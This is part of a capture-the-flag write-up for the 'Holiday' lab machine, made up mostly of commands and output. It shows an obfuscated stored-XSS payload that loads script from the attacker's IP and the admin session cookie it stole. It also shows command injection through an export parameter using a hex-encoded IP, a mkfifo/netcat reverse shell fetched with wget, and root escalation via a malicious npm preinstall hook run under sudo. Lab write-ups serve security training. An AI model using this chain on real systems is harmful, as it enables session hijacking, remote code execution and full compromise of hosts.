   ...: div%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-c
   ...: ontrol-static%22%3EGutkowskiberg%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %3Cdiv%20role%3D%22tabpanel%22%20class%3D%22tab-pane%22%20id%3D%22notes%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-defa
   ...: ult%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3ENotes%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%26lt%3Bimg%20src%26%23x3D%3Bx%2F%26gt%3B%26lt%3Bscript%26gt%3Beval(String.fromCharCode(100%2C111%2C
   ...: 99%2C117%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C
   ...: 48%2C46%2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%26lt%
   ...: 3B%2Fscript%26gt%3B%26gt%3B%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%2
   ...: 02018%2C%209%3A11%3A57%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%26lt%3Bimg%20src%26%23x3D%3Bx%2F%26gt%3B%26lt%3Bscript%26gt%3Beval(String.fromCharCode(100%2C111%2C99%2C11
   ...: 7%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46
   ...: %2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%26lt%3B%2Fsc
   ...: ript%26gt%3B%26gt%3B%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2
   ...: C%209%3A26%3A02%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EAdd%20note%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20class%3D%22form%22%20action%3D%22%2Fagent%2FaddNote%22%20method%3D%22post%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22uuid%22%20value%3D%228dd841ff-3f44-4f2b-9324-9a833e2c6b65%22%3E%0A%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctextarea%20class%3D%22form-control%22%20name%3D%22body%22%3E%3C%2Ftextarea%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22btn%20btn-md%20btn-primary%20btn-block%22%20type%3D%22submit%22%3EAdd%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbr%2F%3E%0A%20%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ci%3EAll%20notes%20must%20be%20approved%20by%20an%20administrator%20-%20this%20process%20can%20take%20up%20to%201%20m
   ...: inute.%3C%2Fi%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20role%3D%22tab
   ...: panel%22%20class%3D%22tab-pane%22%20id%3D%22admin%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-default%22%3E%0A%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%3Ch2%3ENotes%20awaiting%20approval%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cimg%20src%3Dx%2F%3E%3Cscript%3Eeval(String.fromCharCode(100%2C111%2C99%2C117%2C109%2C101%2C110%2C
   ...: 116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46%2C49%2C48%2C46%2C49%2
   ...: C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%3C%2Fscript%3E%3E%3Cbr%2F%3E%3Cbr%
   ...: 2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2C%209%3A29%3A51%20am%3C%2Fsmall%3E%3C
   ...: br%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22%2Fadmin%2Fapprove%22%20method%3D%22POST%22%3E%0A%20%20
   ...: %20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22cookie%22%20value%3D%22connect.sid%26%23x3D%3
   ...: Bs%253A4a7bf690-7076-11e8-846a-a915c6da955e.lJpK87qqwLxN6wZiOmt7q7Icr%252B%252B9%252Fm%252Fr7H8ivTwVx%252F0%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
   ...: 0%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22hidden%22%20name%3D%22id%22%20value%3D%224%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22button%22%20type%3D%22submit%22%3EApprove%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20
   ...: %20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%
   ...: 20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%0A%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fmain%3E%0A%0A%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%3C%2Fdiv%3E%0A%0A%0A%20%20%3C%2Fbody%3E%0A%3C%2Fhtml%3
   ...: E%0A""")
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="utf-8">
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <title>Booking Management</title>
      <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0">
      <link rel="stylesheet" type="text/css" href="/css/bootstrap.min.css" />
      <link rel="stylesheet" type="text/css" href="/css/main.min.css" />
      <script src="/js/jquery.min.js"></script>
      <script src="/js/bootstrap.min.js"></script>
  </head>

  <body>
      <div id="st-container" class="st-container">
      <div class="st-content">
          <p>
              <nav class="navbar navbar-inverse navbar-static-top hidden-print" role="navigation">
                  <div class="container">
                      <a class="navbar-brand navbar-hx-logo" href="http://holiday.htb" data-hxtrack-name="navbar-logo">Booking Management</a>
                      <ul class="nav navbar-nav navbar-right pull-right">
                          <li class="dropdown">
                              <a href="#" class="dropdown-toggle text-right" data-hxtrack-name="navbar-phone-numbers" data-toggle="dropdown"><span class="hidden-xs"><i class="fa fa-phone"></i> Freephone 0800 111 4645</span><span class="visible-xs">Contact us</span></a>
                              <div class="dropdown-menu navbar-phone-numbers text-right">
                                  <div class="panel panel-default">
                                      <div class="panel-heading">
                                          Call <span class="freeNumber">0800 111 4645</span>
                                      </div>
                                      <div class="panel-body">
                                          <p><strong>Mobiles call</strong><br>020 7930 9000</p>
                                          <p><strong>Monday to Friday</strong><br>08.00 to 23.00</p>
                                          <p><strong>Weekends</strong><br>08.30 to 20.00</p>
                                      </div>
                                  </div>
                              </div>
                          </li>
                      </ul>
                  </div>
              </nav>
          </p>
          <main>
              <div class="container">
                  <h1>Booking details</h1>
                  <!-- Nav tabs -->
                  <ul class="nav nav-tabs hidden-print" role="tablist">
                      <li class="active"><a href="#view" aria-controls="view" role="tab" data-toggle="tab"><i class="hidden-xs fa fa-eye fa-fw"></i> View</a></li>
                        <li><a href="#notes" aria-controls="notes" role="tab" data-toggle="tab"><i class="hidden-xs fa fa-sticky-note-o fa-fw"></i> Notes</a></li>
                        <li><a href="#admin" aria-controls="admin" role="tab" data-toggle="tab"><i class="hidden-xs fa fa-lock fa-fw"></i> Admin</a></li>
                  </ul>
                  <!-- Tab panes -->
                  <div class="tab-content">
                      <!-- Template -->
                      <div role="tabpanel" class="tab-pane active" id="view">
                          <div class="panel panel-default">
                              <div class="panel-body">
                                  <form class="form-horizontal">
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Lead passenger</label>
                                          <div class="col-sm-4">
                                              <p class="form-control-static">Orland Wilkinson</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Booking Ref</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">12ZL1</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Email</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Aliza91@yahoo.com</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Total Paid</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">53</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">From</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Sunday, April 1st 2018, 2:48:20 am</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">to</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Friday, May 4th 2018, 2:35:15 am</p>
                                          </div>
                                      </div>
                                      <div class="form-group">
                                          <label class="col-sm-4 control-label">Flying from</label>
                                          <div class="col-sm-8">
                                              <p class="form-control-static">Gutkowskiberg</p>
                                          </div>
                                      </div>
                                  </form>
                              </div>
                          </div>
                      </div>
                        <div role="tabpanel" class="tab-pane" id="notes">
                          <div class="panel panel-default">
                            <div class="panel-body">
                                <h2>Notes</h2>
                                    <hr/>
                                    &lt;img src&#x3D;x/&gt;&lt;script&gt;eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));&lt;/script&gt;&gt;<br/><br/>
                                    <small>Friday, June 15th 2018, 9:11:57 am</small><br/>
                                    <hr/>
                                    &lt;img src&#x3D;x/&gt;&lt;script&gt;eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));&lt;/script&gt;&gt;<br/><br/>
                                    <small>Friday, June 15th 2018, 9:26:02 am</small><br/>
                              <h2>Add note</h2>
                              <form class="form" action="/agent/addNote" method="post">
                                <input type="hidden" name="uuid" value="8dd841ff-3f44-4f2b-9324-9a833e2c6b65">
                                <textarea class="form-control" name="body"></textarea><br/>
                                <button class="btn btn-md btn-primary btn-block" type="submit">Add</button>
                              </form>
                              <br/>
                              <i>All notes must be approved by an administrator - this process can take up to 1 minute.</i>
                            </div>
                          </div>
                        </div>
                        <div role="tabpanel" class="tab-pane" id="admin">
                          <div class="panel panel-default">
                            <div class="panel-body">
                                <h2>Notes awaiting approval</h2>
                                    <hr/>
                                    <script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>><br/><br/>
                                    <small>Friday, June 15th 2018, 9:29:51 am</small><br/>
                                    <form action="/admin/approve" method="POST">
                                      <input type="hidden" name="cookie" value="connect.sid&#x3D;s%3A4a7bf690-7076-11e8-846a-a915c6da955e.lJpK87qqwLxN6wZiOmt7q7Icr%2B%2B9%2Fm%2Fr7H8ivTwVx%2F0">
                                      <input type="hidden" name="id" value="4">
                                      <button class="button" type="submit">Approve</button>
                                    </form>
                            </div>
                          </div>
                        </div>
                  </div>
              </div>


          </main>

      </div>
  </div>


  </body>
</html>


In [3]:
```


```
http://10.10.10.25:8000/admin
```


```sh
root@kali:~/holiday# cat export-notes-1529052201626
1|31|<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">|1529050317381|1
2|31||1529051157082|1
3|31|<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">|1529051162950|1
4|31|<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">|1529051391471|1
root@kali:~/holiday#
```

###### Command Injection


[`IP to Hex`](https://www.miniwebtool.com/ip-address-to-hex-converter/)


```
127.0.0.1
0x7F000001

10.10.14.16
0x0A0A0E10
```

```sh
root@kali:~/holiday# ping 0x7F000001
PING 0x7F000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.045 ms
^C
--- 0x7F000001 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2028ms
rtt min/avg/max/mdev = 0.025/0.033/0.045/0.010 ms
root@kali:~/holiday#
```

```sh
root@kali:~/holiday# ping 0x0A0A0E10
PING 0x0A0A0E10 (10.10.14.16) 56(84) bytes of data.
64 bytes from 10.10.14.16: icmp_seq=1 ttl=64 time=0.023 ms
64 bytes from 10.10.14.16: icmp_seq=2 ttl=64 time=0.032 ms
64 bytes from 10.10.14.16: icmp_seq=3 ttl=64 time=0.043 ms
^C
--- 0x0A0A0E10 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2041ms
rtt min/avg/max/mdev = 0.023/0.032/0.043/0.010 ms
root@kali:~/holiday#
```

`shell`

```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 8009 >/tmp/f
```


```
GET /admin/export?table=notes/%26wget+0x0a0a0e10/shell
```


```sh
root@kali:~/holiday# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.25 - - [15/Jun/2018 04:57:11] "GET /shell HTTP/1.1" 200 -
```

```
GET /admin/export?table=notes/%26bash+shell
```


###### Reverse Shell

[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method3upgradingfromnetcatwithmagic)

```sh
root@kali:~/holiday# nc -nlvp 8009
listening on [any] 8009 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.25] 56100
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
algernon@holiday:~/app$ ^Z
[1]+  Stopped                 nc -nlvp 8009
root@kali:~/holiday# echo $TERM
xterm-256color
root@kali:~/holiday# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/holiday# stty raw -echo
root@kali:~/holiday# nc -nlvp 8009
                                  reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

algernon@holiday:~/app$ export SHELL=bash
algernon@holiday:~/app$ stty rows 51 columns 204
algernon@holiday:~/app$
```

###### Privilege Escalation

```sh
algernon@holiday:~/app$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
algernon@holiday:~/app$
```


[`rimrafall`](https://github.com/joaojeronimo/rimrafall)


```sh
root@kali:~/holiday# wget https://github.com/joaojeronimo/rimrafall/archive/master.zip
--2018-06-15 05:06:07--  https://github.com/joaojeronimo/rimrafall/archive/master.zip
Resolving github.com (github.com)... 192.30.255.112, 192.30.255.113
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/joaojeronimo/rimrafall/zip/master [following]
--2018-06-15 05:06:07--  https://codeload.github.com/joaojeronimo/rimrafall/zip/master
Resolving codeload.github.com (codeload.github.com)... 192.30.255.120, 192.30.255.121
Connecting to codeload.github.com (codeload.github.com)|192.30.255.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/zip]
Saving to: master.zip

master.zip                                             [ <=>                                                                                                             ]   1.57K  --.-KB/s    in 0s

2018-06-15 05:06:08 (19.4 MB/s) - master.zip saved [1606]

root@kali:~/holiday#
```

```sh
root@kali:~/holiday# unzip master.zip -d rimrafall
Archive:  master.zip
dcc08a63026ff2a5cc1451aeff1567922013066d
   creating: rimrafall/rimrafall-master/
  inflating: rimrafall/rimrafall-master/README.md
 extracting: rimrafall/rimrafall-master/index.js
  inflating: rimrafall/rimrafall-master/package.json
root@kali:~/holiday# cd rimrafall/rimrafall-master/
root@kali:~/holiday/rimrafall/rimrafall-master#
root@kali:~/holiday/rimrafall/rimrafall-master# ls -lah
total 20K
drwxr-xr-x 2 root root 4.0K Mar 24  2016 .
drwxr-xr-x 3 root root 4.0K Jun 15 05:07 ..
-rw-r--r-- 1 root root   52 Mar 24  2016 index.js
-rw-r--r-- 1 root root  271 Mar 24  2016 package.json
-rw-r--r-- 1 root root 1.4K Mar 24  2016 README.md
root@kali:~/holiday/rimrafall/rimrafall-master#
```

```sh
root@kali:~/holiday/rimrafall/rimrafall-master# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.25 - - [15/Jun/2018 05:09:29] "GET /index.js HTTP/1.1" 200 -
10.10.10.25 - - [15/Jun/2018 05:09:42] "GET /package.json HTTP/1.1" 200 -
```

```sh
algernon@holiday:~/app$ mkdir rimrafall
algernon@holiday:~/app$ cd rimrafall/
algernon@holiday:~/app/rimrafall$ wget http://10.10.14.16/index.js
--2018-06-15 10:08:56--  http://10.10.14.16/index.js
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 52 [application/javascript]
Saving to: index.js

index.js                                           100%[================================================================================================================>]      52  --.-KB/s    in 0s

2018-06-15 10:08:57 (12.7 MB/s) - index.js saved [52/52]

algernon@holiday:~/app/rimrafall$ wget http://10.10.14.16/package.json
--2018-06-15 10:09:08--  http://10.10.14.16/package.json
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 271 [application/json]
Saving to: package.json

package.json                                       100%[================================================================================================================>]     271  --.-KB/s    in 0s

2018-06-15 10:09:09 (55.7 MB/s) - package.json saved [271/271]

algernon@holiday:~/app/rimrafall$
```

```sh
algernon@holiday:~/app/rimrafall$ cd
algernon@holiday:~$ ls
app  user.txt
algernon@holiday:~$ cat user.txt
5edc176c52673a6e0f087c68c531c743
algernon@holiday:~$
```

`package.json`

```json
{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "rm -rf /* # DO NOT INSTALL THIS",
  "main": "index.js",
  "scripts": {
    "preinstall": "bash /tmp/shell"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "Joo Jernimo",
  "license": "ISC"
}
```


```sh
algernon@holiday:~/app$ cp shell /tmp/
algernon@holiday:~/app$ cd /tmp/
algernon@holiday:/tmp$ vi shell
algernon@holiday:/tmp$ cat shell
#!/bin/bash
rm /tmp/b;mkfifo /tmp/b;cat /tmp/b|/bin/sh -i 2>&1|nc 10.10.14.16 8010 >/tmp/b
algernon@holiday:/tmp$
```


```sh
algernon@holiday:~/app$ sudo npm i rimrafall --unsafe

> rimrafall@1.0.0 preinstall /home/algernon/app/node_modules/.staging/rimrafall-aa0a316f
> bash /tmp/shell

rm: cannot remove '/tmp/b': No such file or directory
```

```sh
root@kali:~/holiday# nc -nlvp 8010
listening on [any] 8010 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.25] 53866
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -lah
total 16K
drwxr-xr-x 2 algernon algernon 4.0K Jun 15 10:24 .
drwxr-xr-x 3 root     root     4.0K Jun 15 10:24 ..
-rw-r--r-- 1 algernon algernon   52 Mar 24  2016 index.js
-rw-r--r-- 1 algernon algernon 1.3K Jun 15 10:24 package.json
# cd /root
# cat root.txt
a844cb50bf88ebbe8412e095a6b642e8
#
```

###### Reference

- [Poisoning the Well  Compromising GoDaddy Customer Support With Blind XSS](https://thehackerblog.com/poisoning-the-well-compromising-godaddy-customer-support-with-blind-xss/index.html)
- [The 2016-2017 iCTF DDoS](https://ictf.cs.ucsb.edu/pages/the-2016-2017-ictf-ddos.html)